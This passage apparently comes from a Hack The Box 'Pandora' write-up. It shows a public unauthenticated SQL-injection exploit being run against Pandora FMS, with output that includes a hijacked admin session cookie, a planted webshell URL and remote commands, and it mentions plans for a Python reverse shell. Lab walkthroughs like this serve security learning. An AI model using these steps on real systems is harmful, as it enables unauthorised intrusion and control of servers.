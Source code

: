 Trying to login as user daniel we get the following error:

![pandora_error.png](../assets/pandora_assets/pandora_error.png)

Looking for unauthenticated exploits I find: https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated

Which exploits a SQL injection vulnerability in pandora FMS and inpersonates the administrator, dropping us into a webshell.

Lets try it:

```
┌──(ryan㉿kali)-[~/HTB/Pandora]
└─$ python pandoraFMS_sqlpwn.py -t 127.0.0.1
URL:  http://127.0.0.1/pandora_console
[+] Sending Injection Payload
[+] Requesting Session
[+] Admin Session Cookie : aotbm9o5g4tt6snmjct7cc8ci0
[+] Sending Payload 
[+] Respose : 200
[+] Pwned :)
[+] If you want manual Control : http://127.0.0.1/pandora_console/images/pwn.php?test=
CMD > whoami
matt

CMD > hostname
pandora
```

Nice, that worked!

Next I'll set up a listener and grab a Python revers shell oneliner from revshells.com, so I can spawn a proper reverse shell:

![pandora_shello.png](../assets/pandora_assets/pandora_shello.png)
